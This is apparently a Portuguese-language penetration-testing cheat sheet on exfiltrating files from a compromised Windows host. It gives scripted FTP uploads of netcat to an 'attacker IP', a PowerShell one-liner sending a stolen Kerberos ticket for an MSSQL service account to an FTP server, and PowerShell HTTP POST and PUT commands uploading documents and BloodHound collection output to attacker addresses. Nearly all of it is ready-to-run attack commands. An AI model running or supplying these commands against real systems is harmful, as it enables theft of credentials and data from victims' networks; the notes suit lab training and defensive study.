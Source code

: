     ftp -n -v
    open 192.168.0.253
    user offsec
    lab
    ascii
    put nc.txt nome_do_arq_no_server.txt
    bye

onde:

-n é para evitaar a solicitação de prompt de login
-v para evitar verbose output

open: inicia a conexão com o IP do atacante
user: informar usuário e senha
ascii: é para mudar o modo de transferência para ascii
put source dest: enviar arquivo

Para fazer isso de maneira não interativa, podemos informar o parâmetro "-s"

e salvar os seguintes comandos em um arquivo:

    open 192.168.0.253
    user offsec
    lab
    ascii
    put nc.exe
    bye
Salvando esses comandos em um arquivo chamado "comandos_ftp.txt", executar :

    ftp -n -v -s:comandos_ftp.txt


### powershell

    $client = New-Object System.Net.WebClient;$client.Credentials = New-Object System.Net.NetworkCredential("anonymous", "anonymous");$client.UploadFile("ftp://10.10.14.14/test.kirbi", "C:\temp\1-40a10000-sqlsvc@MSSQLSvc~dc1.scrm.local~1433-SCRM.LOCAL.kirbi")

 
## HTTP

### powershell

    #Method POST (este não funciona com o script do python para PUT requests)
    powershell (New-Object System.Net.WebClient).UploadFile('http://10.11.0.4/upload.php', 'important.docx')
    
    #Method PUT
    invoke-webrequest http://192.168.0.253:5000/vulns.csv -Method PUT -infile vulns.csv -contenttype application/octet-stream
    
    invoke-webrequest http://192.168.49.120/20220915120636_BloodHound.zip -Method PUT -infile 20220915120636_BloodHound.zip -contenttype application/octet-stream
    
    #method PUT
    powershell (new-object system.net.webclient).uploadfile(http://192.168.119.16/upload.txt, 'put', important.docx)
    